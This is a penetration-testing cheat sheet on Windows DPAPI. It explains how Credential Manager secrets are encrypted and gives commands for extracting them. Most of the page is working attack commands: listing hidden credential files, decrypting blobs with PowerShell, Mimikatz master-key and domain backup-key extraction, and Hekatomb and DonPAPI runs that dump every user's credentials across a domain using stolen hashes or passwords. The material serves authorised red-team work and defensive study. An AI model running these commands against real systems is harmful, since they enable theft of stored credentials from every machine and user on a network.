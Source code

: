 # Windows - DPAPI

> On Windows, credentials saved in the Windows Credentials Manager are encrypted using Microsoft's Data Protection API and stored as "blob" files in user AppData folder.

## Summary

* [Data Protection API](#data-protection-api)
    * [List Credential Files](#list-credential-files)
    * [DPAPI LocalMachine Context](#dpapi-localmachine-context)
    * [Mimikatz - Credential Manager & DPAPI](#mimikatz---credential-manager--dpapi)
    * [Hekatomb - Steal all credentials on domain](#hekatomb---steal-all-credentials-on-domain)
    * [DonPAPI - Dumping DPAPI credz remotely](#donpapi---dumping-dpapi-credz-remotely)


## Data Protection API

* Outside of a domain: the user's `password hash` is used to encrypt these "blobs".
* Inside a domain: the `domain controller's master key` is used to encrypt these blobs.

With the extracted private key of the domain controller, it is possible to decrypt all the blobs, and therefore to recover all the secrets recorded in the Windows identification manager of all the work  
stations in the domain.

```ps1
vaultcmd /list

VaultCmd /listcreds:<namevault>|<guidvault> /all
vaultcmd /listcreds:"Windows Credentials" /all
```

### List Credential Files

```ps1
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\

Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```


### DPAPI LocalMachine Context

The `LocalMachine` context is used to protect data that is intended to be shared across different users or services on a single machine. This means that any user or service running on the machine can access the protected data with the appropriate credentials.

In contrast, the `CurrentUser` context is used to protect data that is intended to be accessed only by the user who encrypted it, and cannot be accessed by other users or services on the same machine.

```ps1
$a = [System.Convert]::FromBase64String("AQAAANCMnd[...]")
$b = [System.Security.Cryptography.ProtectedData]::Unprotect($a, $null, [System.Security.Cryptography.DataProtectionScope]::LocalMachine)
[System.Text.Encoding]::ASCII.GetString($b)
```


### Mimikatz - Credential Manager & DPAPI

```powershell
# check the folder to find credentials
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# check the file with mimikatz
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0
# find master key
mimikatz !sekurlsa::dpapi
# use master key
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b

# find and export backup keys
lsadump::backupkeys /system:dc01.lab.local /export
# use backup keys
dpapi::masterkey /in:"C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```

### Hekatomb - Steal all credentials on domain

> [Processus-Thief/Hekatomb](https://github.com/Processus-Thief/HEKATOMB) is a python script that connects to LDAP directory to retrieve all computers and users informations. Then it will download all DPAPI blob of all users from all computers. Finally, it will extract domain controller private key through RPC uses it to decrypt all credentials.

```python
pip3 install hekatomb
hekatomb -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp
```

![Data in memory](https://github.com/Processus-Thief/HEKATOMB/raw/main/.assets/github1.png)

### DonPAPI - Dumping DPAPI credz remotely

* [login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)

```ps1
DonPAPI.py domain/user:passw0rd@target
DonPAPI.py --hashes <LM>:<NT> domain/user@target

# using domain backup key
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
python DonPAPI.py -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list
```

## References

* [DPAPI - Extracting Passwords - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)
* [DON PAPI, OU L’ART D’ALLER PLUS LOIN QUE LE DOMAIN ADMIN - LoginSecurité - CORTO GUEGUEN - 4 MARS 2022](https://www.login-securite.com/2022/03/04/don-papi-ou-lart-daller-plus-loin-que-le-avec-dpapi/)